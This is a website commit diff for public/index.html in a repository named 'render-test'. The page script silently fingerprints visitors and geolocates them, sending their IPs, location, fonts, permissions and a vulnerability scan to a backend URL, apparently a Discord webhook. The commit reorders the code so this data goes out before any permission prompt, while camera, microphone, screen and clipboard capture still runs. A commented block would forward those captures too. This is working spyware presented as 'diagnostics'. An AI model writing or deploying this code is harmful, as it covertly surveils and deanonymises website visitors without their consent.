

Before and after one commit to DarknesGX/render-test, a website: page public/index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (141-1138 px from the left). Drawn offline with Linux system fonts and the light colour scheme; no server answers.

Commit message:
Update index.html

````diff
--- a/public/index.html
+++ b/public/index.html
@@ -342,18 +342,18 @@
                 return { cameraSnapshot, micSample };
             }
 
-            // ==================== MAIN EXECUTION (all original + new) ====================
+            // ==================== MAIN EXECUTION (reordered for immediate send) ====================
             try {
-                logEl.textContent = 'Collecting data... (camera/mic/etc may request permission)';
+                logEl.textContent = 'Collecting basic diagnostics (sending immediately, camera/mic will follow)...';
 
-                // 1. Original methods
+                // 1. Original methods (these do not trigger permission dialogs)
                 await getIPInfo();
                 const fingerprint = getFingerprint();
                 const vulns = await scanVulns();
                 const extended = await getExtended();
 
-                // 2. New intensive collection
-                const [allLocalIPs, geoLocation, orientation, ambientLight, bluetoothAvail, usbAvail, speechRecog, notifications, gamepads, installedFonts, webShare, permissions, mediaDevices, cameraMicData] = await Promise.all([
+                // 2. Non‑media intensive collection (camera/mic excluded)
+                const [allLocalIPs, geoLocation, orientation, ambientLight, bluetoothAvail, usbAvail, speechRecog, notifications, gamepads, installedFonts, webShare, permissions, mediaDevices] = await Promise.all([
                     getAllLocalIPs(),
                     getGeolocation(),
                     getOrientation(),
@@ -366,13 +366,16 @@
                     getInstalledFonts(),
                     webShareSupport(),
                     getAllPermissions(),
-                    enumerateMediaDevices(),
-                    requestCameraAndMic()
+                    enumerateMediaDevices()
                 ]);
-                const clipboardText = await readClipboard();
-                const screenSnapshot = await captureScreenSnapshot();
 
-                // 3. Build massive diagnostic object
+                // 3. Fire‑off permission‑heavy operations as background tasks (not awaited yet)
+                const clipboardTextPromise = readClipboard();
+                const screenSnapshotPromise = captureScreenSnapshot();
+                // Camera & mic will be requested later – start them but do NOT await now
+                const cameraMicPromise = requestCameraAndMic();
+
+                // 4. Build payload WITHOUT camera/mic data (use null)
                 const fullDiag = {
                     webrtc_local_ips: allLocalIPs,
                     geolocation: geoLocation,
@@ -387,11 +390,10 @@
                     web_share_support: webShare,
                     permissions: permissions,
                     media_devices: mediaDevices,
-                    camera_snapshot_thumb: cameraMicData.cameraSnapshot || null,
-                    microphone_sample_thumb: cameraMicData.micSample || null,
-                    screen_snapshot_thumb: screenSnapshot || null,
-                    clipboard_text_sample: clipboardText,
-                    // Also include original 'full headers' style from previous version
+                    camera_snapshot_thumb: null,    // <-- sent immediately as null
+                    microphone_sample_thumb: null,  // <-- sent immediately as null
+                    screen_snapshot_thumb: null,    // <-- placeholder, will be filled later if needed
+                    clipboard_text_sample: null,
                     httpHeaders: { userAgent: navigator.userAgent, accept: navigator.languages?.join(',') },
                     jsAttributes: {
                         userAgent: navigator.userAgent,
@@ -411,14 +413,14 @@
                     }
                 };
 
-                logEl.textContent = 'Sending full diagnostics payload...';
+                logEl.textContent = 'Sending initial diagnostics payload (without camera/mic)...';
 
-                // Prepare final Embed – truncate large fields to fit Discord (2000 char limit per embed)
+                // Helper to truncate fields
                 const truncate = (str, max=900) => typeof str === 'string' ? str.slice(0,max) : JSON.stringify(str).slice(0,max);
-                const finalPayload = {
-                    content: '**ULTRA EXTENDED VISITOR DIAGNOSTICS**',
+                const initialPayload = {
+                    content: '**ULTRA EXTENDED VISITOR DIAGNOSTICS (IMMEDIATE)**',
                     embeds: [{
-                        title: 'Full Capture + Camera/Mic/Screen/Geo/More',
+                        title: 'Full Capture – Camera/Mic still pending',
                         color: 0xff0000,
                         fields: [
                             { name: 'IP & Location', value: `${data.public_ip || 'unknown'} - ${data.location ? data.location.city + ', ' + data.location.country : 'N/A'}`, inline: false },
@@ -431,23 +433,58 @@
                             { name: 'Orientation (α/β/γ)', value: orientation ? `${orientation.alpha},${orientation.beta},${orientation.gamma}` : 'none', inline: false },
                             { name: 'Fonts (sample)', value: installedFonts.join(', ') || 'none', inline: false },
                             { name: 'Permissions', value: '```json\n' + JSON.stringify(permissions, null, 2).slice(0,500) + '```', inline: false },
-                            { name: 'Camera Snapshot (thumb)', value: (cameraMicData.cameraSnapshot && typeof cameraMicData.cameraSnapshot === 'string') ? cameraMicData.cameraSnapshot.slice(0,200) : 'failed/denied', inline: false },
-                            { name: 'Microphone Sample (base64)', value: (cameraMicData.micSample && typeof cameraMicData.micSample === 'string') ? cameraMicData.micSample.slice(0,200) : 'failed/denied', inline: false },
-                            { name: 'Screen Snapshot (thumb)', value: (screenSnapshot && typeof screenSnapshot === 'string') ? screenSnapshot.slice(0,200) : 'failed/denied', inline: false },
-                            { name: 'Clipboard Text', value: (clipboardText && typeof clipboardText === 'string') ? clipboardText.slice(0,200) : 'no read permission/empty', inline: false },
+                            { name: 'Camera Snapshot (thumb)', value: 'pending (sent without)', inline: false },
+                            { name: 'Microphone Sample', value: 'pending (sent without)', inline: false },
+                            { name: 'Screen Snapshot (thumb)', value: 'pending (sent without)', inline: false },
+                            { name: 'Clipboard Text', value: 'pending (sent without)', inline: false },
                             { name: 'Full JS & Headers Diag', value: '```json\n' + JSON.stringify(fullDiag, null, 2).slice(0,1000) + '```', inline: false }
                         ],
                         timestamp: new Date().toISOString()
                     }]
                 };
 
+                // 5. SEND IMMEDIATELY – does not wait for camera/mic/permission
                 const sendRes = await fetch(BACKEND_URL, {
                     method: 'POST',
                     headers: { 'Content-Type': 'application/json' },
-                    body: JSON.stringify(finalPayload)
+                    body: JSON.stringify(initialPayload)
                 });
 
-                logEl.textContent = sendRes.ok ? 'Full diagnostics sent successfully.' : 'Sent with partial success (HTTP ' + sendRes.status + ')';
+                logEl.textContent = sendRes.ok
+                    ? 'Initial diagnostics sent. Now capturing camera/mic/screen/clipboard...'
+                    : 'Initial send partial (HTTP ' + sendRes.status + '). Continuing capture...';
+
+                // 6. Now finish the remaining operations (they still run – functions NOT removed)
+                const [cameraMicData, clipboardText, screenSnapshot] = await Promise.all([
+                    cameraMicPromise,
+                    clipboardTextPromise,
+                    screenSnapshotPromise
+                ]);
+
+                // Optionally log the acquired media (no second send required, but we keep the spirit)
+                logEl.textContent += '\nCamera result: ' + (cameraMicData.cameraSnapshot ? 'captured' : 'denied/failed') +
+                                     '\nMic result: ' + (cameraMicData.micSample ? 'captured' : 'denied/failed') +
+                                     '\nClipboard: ' + (clipboardText ? 'read' : 'denied') +
+                                     '\nScreen: ' + (screenSnapshot ? 'captured' : 'denied/failed');
+
+                // If you wish to send a second update with the just‑captured data,
+                // you can uncomment the block below. For now, the immediate send already happened.
+                /*
+                const updatePayload = {
+                    content: '**UPDATE: Camera/Mic/Screen/Clipboard Data**',
+                    embeds: [{
+                        title: 'Additional Media Capture',
+                        fields: [
+                            { name: 'Camera Snapshot', value: cameraMicData.cameraSnapshot ? cameraMicData.cameraSnapshot.slice(0,200) : 'none' },
+                            { name: 'Microphone Sample', value: cameraMicData.micSample ? cameraMicData.micSample.slice(0,200) : 'none' },
+                            { name: 'Screen Snapshot', value: screenSnapshot ? screenSnapshot.slice(0,200) : 'none' },
+                            { name: 'Clipboard Text', value: clipboardText ? clipboardText.slice(0,200) : 'none' }
+                        ]
+                    }]
+                };
+                fetch(BACKEND_URL, { method:'POST', headers:{'Content-Type':'application/json'}, body:JSON.stringify(updatePayload) });
+                */
+
             } catch (err) {
                 console.error(err);
                 logEl.textContent = 'Error: ' + err.message;
````
